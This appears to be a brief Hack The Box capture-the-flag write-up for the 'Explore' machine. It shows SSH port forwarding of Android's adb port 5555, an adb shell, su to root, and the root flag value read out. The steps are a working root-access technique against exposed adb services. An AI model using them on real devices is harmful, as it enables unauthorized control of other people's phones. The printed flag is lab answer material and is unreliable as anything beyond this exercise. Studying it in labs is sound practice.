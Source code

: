 # Enumeration-

**ATACK SENARIO**  

Android devices Being Shipped with TCP Port 5555 Enabled so we port forward 5555(port) to our localhost then exploit via adb get shell :)

```bash
apt install adb
```

### Port Forward-

```bash
root@napster:~/Documents/HTB/Explore# ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ 
```

### New terminal-

```bash
root@napster:~/Documents/HTB/Explore# adb connect localhost:5555
already connected to localhost:5555
root@napster:~/Documents/HTB/Explore# adb devices
List of devices attached
emulator-5554   device
localhost:5555  device
root@napster:~/Documents/HTB/Explore# adb -s localhost:5555 shell
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
:/ # whoami
root
:/ # find / -name "root.txt" 2>/dev/null
/data/root.txt
1|:/ # cat /data/root.txt                                                      
f04fc82b6d49b41c9b08982be59338c5
```